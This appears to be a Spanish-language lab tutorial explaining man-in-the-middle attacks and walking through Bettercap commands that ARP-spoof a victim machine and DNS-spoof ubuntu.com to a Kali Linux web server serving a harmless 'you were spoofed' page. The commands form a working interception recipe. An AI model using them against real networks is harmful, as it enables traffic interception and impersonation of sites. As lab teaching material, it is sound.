 # Ataque Man in the Middle con Bettercap

<br>

<p align="center">
<img src="./Img/Logo.png">
</p>

<br>

## Que es un ataque Main in the Middle?

Ataque de intermediario ocurre cuando un atacante puede interceptar o manipular tráfico entre dos partes conocidas como víctima y receptor.

La víctima es aquella persona que envía un mensaje a otro individuo esperando una respuesta, mientras que el receptor es la parte que recibe la información para luego analizarla y responder a la solicitud enviada.

El atacante aparte de interceptar todos los datos que son enviados entre las dos partes podría llegar a manipular los datos para obtener información confidencial, modificar transferencias bancarias e incluso suplantar la identidad ya sea de la víctima o el receptor.

## Instalación

```
sudo apt-get install bettercap
```

<br>

## USO

Para hacer un ataque **MITM** tendremos que hacer un ataque **DNS Spoofing** a nuestra máquina windows.

Ahora usaremos con siguiente comandos

```
bettercap

set arp.spoof.targets 192.168.1.10

arp.spoof on

set dns.spoof.domains ubuntu.com

set dns.spoof.address 192.168.1.20

dns.spoof on
```

Si vamos a la máquina víctima abrimos CMD y ejecutamos el siguiente comando

```
arp -a
```

<br>

<p align="center">
<img src="./Img/arp.jpg">
</p>

<br>

Como podemos ver tenemos como puerta de enlace la IP de nuestro kali Linux.

Ahora vamos a configurar nuestra pagina web e iniciar el servicio apache2

```
sudo su

cd /var/www/html

rm index.html

nano index.html
```

Y copiamos el siguiente codigo

<br>

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>MITM</title>
    <style type="text/css">
        .titulo{
            font-size: 30px;
        }
        .texto{
            font-size: 30px;
        }
    </style>
</head>
<body>
    <div align="center">
        <h1 class="Titulo">
            Ataque de Intermediario
        </h1>
        <div class="texto">
            Has sido Víctima de un DNS Spoofing
        </div>
    </div>
</body>
</html>
```

<br>

Ahora vamos a levantar el servidor apache2

```
service apache2 start
```

Como podemos ver al acceder a **ubuntu.com** en la máquina víctima nos sale el index.html de nuestro servidor apache2 de Kali Linux.

<br>

<p align="center">
<img src="./Img/ubuntu.png">
</p>

<br>
